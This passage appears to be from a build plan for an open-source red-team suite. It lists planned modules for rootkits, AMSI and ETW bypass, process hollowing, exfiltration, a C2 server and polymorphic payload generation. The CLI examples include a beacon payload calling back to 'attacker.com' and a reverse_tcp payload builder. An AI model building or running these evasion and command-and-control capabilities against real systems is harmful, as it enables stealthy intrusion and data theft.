| `netforge/modules/post_exploit/data_staging.py` | **NEW** | Data collection + staging |
| `netforge/modules/post_exploit/exfil_engine.py` | **NEW** | Data exfiltration |
| `netforge/modules/rootkit/__init__.py` | **NEW** | Rootkit package |
| `netforge/modules/rootkit/rootkit_base.py` | **NEW** | Abstract rootkit interface |
| `netforge/modules/rootkit/userland_rootkit.py` | **NEW** | Userland rootkit |
| `netforge/modules/rootkit/kernel_rootkit.py` | **NEW** | Windows kernel rootkit |
| `netforge/modules/rootkit/linux_rootkit.py` | **NEW** | Linux kernel rootkit |
| `netforge/modules/rootkit/process_hollow.py` | **NEW** | Process hollowing |
| `netforge/modules/rootkit/dll_inject.py` | **NEW** | DLL injection |
| `netforge/modules/rootkit/reflective_load.py` | **NEW** | Reflective DLL loading |
| `netforge/modules/rootkit/amsi_bypass.py` | **NEW** | AMSI bypass |
| `netforge/modules/rootkit/etw_blind.py` | **NEW** | ETW patching |

### Intel Pipeline

| File | Action | Description |
|------|--------|-------------|
| `common/intel/__init__.py` | **NEW** | Intel package |
| `common/intel/intel_engine.py` | **NEW** | Main intel coordinator |
| `common/intel/cve_sync.py` | **NEW** | NVD CVE sync |
| `common/intel/exploit_db_sync.py` | **NEW** | Exploit-DB mirror |
| `common/intel/nuclei_sync.py` | **NEW** | Nuclei template sync |
| `common/intel/technique_learner.py` | **NEW** | ATT&CK technique DB |
| `common/intel/offline_db.py` | **NEW** | Offline database manager |

### Payload Generation

| File | Action | Description |
|------|--------|-------------|
| `forge_payload/__init__.py` | **NEW** | Payload package |
| `forge_payload/payload_factory.py` | **NEW** | Main payload builder |
| `forge_payload/shellcode/shellcode_x64.py` | **NEW** | x64 shellcode templates |
| `forge_payload/encoders/xor_encoder.py` | **NEW** | XOR encoding |
| `forge_payload/encoders/aes_encoder.py` | **NEW** | AES encryption |
| `forge_payload/encoders/polymorphic.py` | **NEW** | Polymorphic engine |
| `forge_payload/formats/pe_builder.py` | **NEW** | Windows PE builder |
| `forge_payload/formats/elf_builder.py` | **NEW** | Linux ELF builder |
| `forge_payload/formats/ps1_builder.py` | **NEW** | PowerShell payload |
| `forge_payload/stagers/http_stager.py` | **NEW** | HTTP staged payload |
| `forge_payload/evasion/string_obfuscate.py` | **NEW** | String obfuscation |
| `forge_payload/evasion/sandbox_detect.py` | **NEW** | Sandbox detection |

### Launcher + Config Updates

| File | Action | Description |
|------|--------|-------------|
| `forge.py` | **REWRITE** | Add `dashboard`, `c2`, `intel`, `payload` subcommands + multi-target |
| `netforge/netforge.py` | **MODIFY** | Wire EventBus, multi-target, pause/resume, new phases |
| `webforge/webforge.py` | **MODIFY** | Wire EventBus, multi-target, pause/resume |
| `adforge/adforge.py` | **MODIFY** | Wire EventBus, multi-target, pause/resume |
| `aiforge/aiforge.py` | **MODIFY** | Wire EventBus, multi-target, pause/resume |
| `requirements.txt` | **MODIFY** | Add fastapi, uvicorn, websockets, pyjwt |
| `install.sh` | **MODIFY** | Add new dependencies, Docker support |

---

## Updated Forge Suite v5 CLI

```bash
# ══════════════════════════════════════════════════════════
# SCANNING
# ══════════════════════════════════════════════════════════

# Single target
python forge.py net --target 10.0.0.0/24 --mode internal
python forge.py web --url https://example.com
python forge.py ad  --target dc01.corp.local --domain corp.local
python forge.py ai  --target https://api.example.com/v1/chat

# Multi-target
python forge.py web --targets targets.txt --parallel 5
python forge.py net --targets hosts.txt --mode internal --red-team

# With dashboard
python forge.py web --target example.com --dashboard
python forge.py web --targets targets.txt --dashboard --dashboard-port 1337

# ══════════════════════════════════════════════════════════
# DASHBOARD (standalone)
# ══════════════════════════════════════════════════════════

python forge.py dashboard                              # Start dashboard server
python forge.py dashboard --attach engagement_dir/     # Attach to running scan
python forge.py dashboard --replay engagement_dir/     # Replay completed scan

# ══════════════════════════════════════════════════════════
# C2 FRAMEWORK
# ══════════════════════════════════════════════════════════

python forge.py c2 server --bind 0.0.0.0 --port 8443  # Start team server
python forge.py c2 connect --server team.local:8443    # Connect as operator
python forge.py c2 listener add --type https --port 443
python forge.py c2 payload --type beacon_https --lhost attacker.com

# ══════════════════════════════════════════════════════════
# INTELLIGENCE
# ══════════════════════════════════════════════════════════

python forge.py intel sync --all                       # Sync all intel sources
python forge.py intel sync --cve --since 2024-01-01    # Sync recent CVEs
python forge.py intel search "Apache 2.4.49"           # Search local intel
python forge.py intel status                           # Show sync status

# ══════════════════════════════════════════════════════════
# PAYLOAD GENERATION
# ══════════════════════════════════════════════════════════

python forge.py payload --type reverse_tcp --lhost 10.0.0.5 --lport 4444 --format exe
python forge.py payload --list                         # List payload types
```

---

## Updated Phase Structure

### NetForge v4 (11 Phases)

```
Phase 1:   Host Discovery      (host_discover, port_scanner, os_detect, service_id, topology_map)
Phase 2:   External Recon      (dns_recon, ssl_audit, smtp_check, firewall_detect, exposure_check, firewall_rule_check)
Phase 3:   Internal Analysis   (arp_monitor, dhcp_audit, vlan_check, cdp_ldp, ipv6_audit, llmnr_detect)
Phase 4:   Service Auditing    (smb_audit, ftp_audit, ssh_audit, telnet_audit, rdp_audit, snmp_audit, ...)
Phase 5:   Vuln Matching       (cve_matcher, nmap_vulns, nuclei_runner, exploit_suggest)
Phase 6:   Brute Force         (native_brute, smart_brute, cred_spray, hydra_wrap)
Phase 7:   Exploitation        (heartbleed, redis_rce, ntlm_relay, eternalblue, bluekeep, zerologon,
                                log4shell, proxyshell, spring4shell, printnightmare, smbghost, ...)  ← EXPANDED
Phase 8:   Post-Exploitation   (sam_dump, ntds_dump, mimikatz_exec, token_steal, socks_deploy, loot_parse)  ← REWRITTEN
Phase 9:   Lateral Movement    (lateral_smb, lateral_wmi, lateral_winrm, lateral_psexec, lateral_ssh)  ← NEW
Phase 10:  Persistence         (persist_schtask, persist_registry, persist_service, persist_cron)  ← NEW
Phase 11:  Reporting           (html_report, pdf_report, json_export, csv_export, network_diagram)
```

### Rootkit Phase (Red Team only, Phase 10.5 — after persistence, before reporting)
```
Phase 10.5: Rootkit Deployment  (userland_rootkit, kernel_rootkit, linux_rootkit, amsi_bypass, etw_blind)
```

---

## Verification Plan

### Automated Tests

```bash
# Syntax check all files
find . -name "*.py" | xargs python3 -m py_compile 2>&1 && echo "ALL SYNTAX OK"

# Run pytest suite
python -m pytest common/ netforge/ webforge/ adforge/ aiforge/ forge_c2/ forge_payload/ -v

# Dashboard smoke test
python -c "from common.dashboard.server import create_app; app = create_app(); print('Dashboard OK')"

# C2 server smoke test
python -c "from forge_c2.server import C2Server; s = C2Server(); print('C2 OK')"

# Intel engine test
python -c "from common.intel.intel_engine import IntelEngine; e = IntelEngine(); print(e.status())"

# Payload factory test
python -c "from forge_payload.payload_factory import PayloadFactory; print(PayloadFactory.list_payloads())"

# Multi-target test
python -c "from common.target_manager import TargetManager; t = TargetManager(); t.add_target('10.0.0.1'); print(t.status())"
```

### Manual Verification

- Launch dashboard at `https://localhost:1337` and verify all panels render
- Run a scan with `--dashboard` flag and verify real-time updates
- Test pause/resume/abort controls
- Test multi-target with a `targets.txt` file
- Verify offline mode with `--offline` flag
- Test C2 server startup and operator connection
- Generate a payload and verify output format

---

## Build Order (Recommended)

| Phase | Pillar | Effort | Value | Files |
|-------|--------|--------|-------|-------|
| **1** | Dashboard (Pillar 2) | 3-4 sessions | 🔥🔥🔥🔥🔥 | ~25 files |
| **2** | Multi-Target (Pillar 3) | 2 sessions | 🔥🔥🔥🔥 | ~5 files + modifications |
| **3** | Intel Pipeline (Pillar 5) | 2 sessions | 🔥🔥🔥🔥 | ~8 files |
| **4** | C2 Framework (Pillar 1) | 4-5 sessions | 🔥🔥🔥🔥🔥 | ~25 files |
| **5** | Post-Exploit (Pillar 4) | 3-4 sessions | 🔥🔥🔥🔥 | ~25 files |
| **6** | Rootkit (Pillar 4b) | 3-4 sessions | 🔥🔥🔥 | ~12 files |
| **7** | Payload Gen (Pillar 6) | 3 sessions | 🔥🔥🔥🔥 | ~15 files |
| **8** | Advanced Modules (Pillar 7) | 3-4 sessions | 🔥🔥🔥 | ~20 files |

**Total estimated: ~135 new files, 20-30 coding sessions**

---

## Competition Comparison

| Feature | Forge Suite v5 | Cobalt Strike | Nessus | Acunetix |
|---------|---------------|---------------|--------|----------|
| **VAPT Scanning** | ✅ (Net+Web+AD+AI) | ❌ | ✅ (Network) | ✅ (Web) |
| **Red Teaming** | ✅ | ✅ | ❌ | ❌ |
| **C2 Framework** | ✅ | ✅ | ❌ | ❌ |
| **Rootkit/Implants** | ✅ | ✅ (Beacon) | ❌ | ❌ |
| **Live Dashboard** | ✅ | ✅ | ✅ | ✅ |
| **Multi-Target** | ✅ | ✅ | ✅ | ✅ |
| **Auto-Update Intel** | ✅ | ❌ | ✅ | ✅ |
| **Payload Generation** | ✅ | ✅ | ❌ | ❌ |
| **Offline Mode** | ✅ | ✅ | ❌ | ❌ |
| **AD Attacks** | ✅ (14 phases) | ✅ | ❌ | ❌ |
| **AI/LLM Testing** | ✅ | ❌ | ❌ | ❌ |
| **Open Source** | ✅ | ❌ ($$$) | ❌ ($$$) | ❌ ($$$) |
| **Pause/Resume** | ✅ | ✅ | ✅ | ✅ |
| **Team Server** | ✅ | ✅ | ❌ | ❌ |

**Forge Suite v5 APEX would be the ONLY platform covering ALL these capabilities in a single unified tool.**
